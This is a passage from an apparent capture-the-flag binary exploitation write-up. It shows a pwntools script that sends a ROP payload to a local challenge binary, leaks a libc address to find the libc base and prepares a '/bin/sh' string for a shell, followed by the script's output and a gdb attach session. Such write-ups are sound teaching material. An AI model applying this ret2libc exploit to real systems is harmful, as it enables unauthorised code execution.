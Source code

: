Now, let's send the payload and parse the leaked LIBC address:-

```python
payload += p64(elf.symbols['main']) # This will shift the `RIP` to `main` function, hence calling the function again.
p.sendlineafter(b"warrior\n", "Robin") # This will be given to the first input program is asking for.
p.sendlineafter(b"me?\n", payload) # Now, we will send the payload.
p.sendline("/bin/sh\x00") # The `/bin/sh` string is being sent such that it'd be stored to the writable address.

leak = u64(p.recv(6).strip().ljust(8, b"\x00")) # Receiving the address and padding it such that it'll be 8 bytes. 

libc.address = leak - libc.symbols['puts'] # Subtracting the leaked address from the LIBC absolute address of `puts` will  give us the base address.
log.info("puts@libc : " + hex(leak)) # Printing the leaked address.
log.info("libc      : " + hex(libc.address)) # Printing the libc base address
log.info("'/bin/sh' : " + str(writable_address)) # Printing `/bin/sh` address.
```

Let's run the script and check it in `gdb` if we are on the right way or not:-

```r
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 14517
[*] Paused (press any to continue)

```

Now, attach it to `gdb`:-

```r
d4mianwayne@oracle:~/pwn1$ gdb-gef -q chall
Reading symbols from chall...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 2 commands could not be loaded, run `gef missing` to know why.
gef➤  attach 14517
Attaching to program: /home/d4mianwayne/pwn1/chall, process 14517
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.27.so...done.

-- snip --

x/read.c:27
27	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
```
